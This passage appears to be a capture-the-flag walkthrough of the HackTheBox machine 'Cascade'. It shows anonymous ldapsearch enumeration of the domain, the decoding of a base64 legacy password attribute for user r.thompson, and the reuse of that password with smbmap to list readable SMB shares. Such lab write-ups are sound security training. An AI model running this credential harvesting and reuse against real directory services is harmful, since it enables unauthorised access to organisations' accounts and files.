 {% highlight bash %}
$ cat /etc/hosts
...
10.10.10.182 cascade.htb cascade.local
{% endhighlight %}

Seeing that `ldap` service is running on port `389`, we will use `ldapsearch`.

{% highlight bash %}
$ ldapsearch -x -h cascade.local -b "dc=cascade,dc=local"
...
cascadeLegacyPwd: clk0bjVldmE=
{% endhighlight %}

After eye-balling for a while, I saw a peculiar "cascadeLegacyPwd" which seems to be in `base64. Decoding it reveals "rY4n5eva"

This field was under a user called "r.thompson". Perhaps this password is still being in used? We can use the `smb` service to verify.

{% highlight bash %}
$ smbmap -H cascade.local -d cascade.local -u r.thompson -p rY4n5eva
[+] Finding open SMB ports....
[+] User SMB session established on cascade.local...
[+] IP: cascade.local:445       Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        .                                                  
        dr--r--r--                0 Tue Jan 28 17:05:51 2020    .
        dr--r--r--                0 Tue Jan 28 17:05:51 2020    ..
        dr--r--r--                0 Sun Jan 12 20:45:14 2020    Contractors
        dr--r--r--                0 Sun Jan 12 20:45:10 2020    Finance
        dr--r--r--                0 Tue Jan 28 13:04:51 2020    IT
        dr--r--r--                0 Sun Jan 12 20:45:20 2020    Production
        dr--r--r--                0 Sun Jan 12 20:45:16 2020    Temps
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        .                                                  
        dr--r--r--                0 Wed Jan 15 16:50:33 2020    .
        dr--r--r--                0 Wed Jan 15 16:50:33 2020    ..
        fr--r--r--              258 Wed Jan 15 16:50:14 2020    MapAuditDrive.vbs
        fr--r--r--              255 Wed Jan 15 16:51:03 2020    MapDataDrive.vbs
        NETLOGON                                                READ ONLY       Logon server share 
        .                                                  
        dr--r--r--                0 Thu Jan  9 18:06:29 2020    .
        dr--r--r--                0 Thu Jan  9 18:06:29 2020    ..
        dr--r--r--                0 Thu Jan  9 18:06:29 2020    color
        dr--r--r--                0 Thu Jan  9 18:06:29 2020    IA64
        dr--r--r--                0 Thu Jan  9 18:06:29 2020    W32X86
        dr--r--r--                0 Sun Jan 12 22:09:11 2020    x64
        print$                                                  READ ONLY       Printer Drivers
        .                                                  
        dr--r--r--                0 Thu Jan  9 10:31:27 2020    .
        dr--r--r--                0 Thu Jan  9 10:31:27 2020    ..
        dr--r--r--                0 Thu Jan  9 10:31:27 2020    cascade.local
        SYSVOL                                                  READ ONLY       Logon server share 
{% endhighlight %}
